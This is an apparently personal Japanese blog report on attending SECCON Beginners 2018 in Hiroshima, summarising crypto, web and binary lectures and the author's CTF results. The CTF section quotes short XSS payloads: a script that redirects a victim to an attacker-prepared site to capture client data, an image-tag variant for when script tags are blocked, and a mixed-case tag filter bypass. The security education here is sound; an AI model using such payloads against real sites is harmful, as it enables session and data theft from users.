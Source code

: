 # SECCON Beginners 2018 広島 に行ってきた

### 目次
- Introduction  
- Crypto(暗号)の講義内容  
- Webの講義内容  
- Binaryの講義内容  
- CTFの内容  
- 感想や他の人の参加記等  


### 行った理由
こないだ行われたSECCON Beginners 2018 CTFでは全然解けずひどかったので参加したかったのです


### 勉強会の内容
- Crypto(暗号)の講義  
- Webの講義  
- Binaryの講義  
- やさしいCTF(2時間ぐらいだったかな?)  
- 交流会  


## Crypto(暗号)講義の非常に大雑把な内容
- modの求め方  
- 逆元の求め方  
- RSA(現在使用されている公開鍵暗号方式)の概要  

### Crypto(暗号)講義の感想
勉強会の中だけでは理解できなかったので復習必要だと感じました  
つまり？　　

### すうが くだいじ
![](./TOMATOICON.046.jpeg)

## Web講義の大雑把な内容
- XSSについて 
- XSSを利用してCokkiを取得する方法
-  XSSを利用してユーザーエージェントを取得する方法(こないだのCTFの問題) 

### XSSとは？
ユーザから入力される内容を表示するサイトで、そのフォームに`<script>`タグ等を入れて不正なスクリプト等を埋め込み、セッションIDを盗む攻撃です。

## Binary講義の非常に大雑把な内容
- 機械語命令(アセンブリ言語)
- 算術命令とか条件分岐とか

## CTF
![](./ctf4b_result1.png)
*灰色が解けた問題

![](./ctf4b_result2.png)
- 通常のCTFより簡単なCTFが行われました。
- 結果は順位：８位
- 点数：1000点
- 良くもなく悪くもなく?
- ぼちぼちな点数でした。

### 今回の問題を一部紹介
- なお大雑把に記載します。他の人のほうが詳細に取り上げておらますのでそちらの方も御覧ください。(最後にリンクを張っています)

### 問題: Calc
- ページに乗った数式の答えを100回連続で答える問題です。
- 僕は、100回手動でPythonに数式をペーストして計算を行い回答しました。（あまり良くない方法です()）
- 別の人はPythonのビューティフルスープを利用したスプレイニングを行って回答されました。(僕のより賢い方法です)

### 問題: make alert!
- XSSを行ってjsでalertを表示させる問題です。
- 単純に`alert`を出力するスクリプトをフォームに記載し、flagを取得しました。

### 問題: Contact Revenge
- XSSを行って、フォームにscript `(<script>document.location='用意したサイト'</script>)`を忍ばせて、こちらが用意したサイトにアクセスさせ、相手のクライアント情報の中にあるflagを取得しました。

### 問題: Contact Re-Revenge
- 先程のContact Revengeとは違い`<script>`タグが入力不可な問題でした。
- 僕は`<img src=‘URL’>` という手を無理やり使ってscriptを使用せずにアクセスをさせて、flagを取得しました。
- 他の人に聞いてみると、実は判定が曖昧で`<Script>`など、文字を一部大文字にするだけでもアクセスできた模様です。


### 問題: Raw
- 僕は解けませんでした...
- どうやらバイナリデータの中にFLAGが書かれた文字があったらしいです...
- Kaitoさんはradare2を使用して見つけ出されたそうです。

### 問題: Review
- アセンブリ言語を読んで、最後のRawの値を答えるとFlagが出力される問題です。
- binaryの講習内で行ったものと似たようなものでした。

### その他
- CTF中に作業妨害BGMが流れました。
- 実際のCTFでも妨害BGMが流れるそうです。

## 今回参加した感想
- しゅういちさん、Kaitoさん、なんばつさん、はいひるさんなどなど、色々な方と喋れて楽しかったです！
- またどこかでお会いしたいです..!
- 数学 頑張る…(^q^)
- 関西でも開催してほしい！！！

## 他の方の参加記
他の方の参加記のほうが詳しく書かれていますので、そちらも是非御覧ください
- [しゅういちさん](ups.hatenablog.jp/entry/2018/09/03/SECCON_Beginners_広島行ってきた)
- [はすみさん](mwc922-hsm.hatenablog.com/entry/2018/09/01/234729)
- [Kaitoさん](https://github.com/tMasaaa/ctf/blob/master/seccon_beginners_hiroshima/blog/blog.md)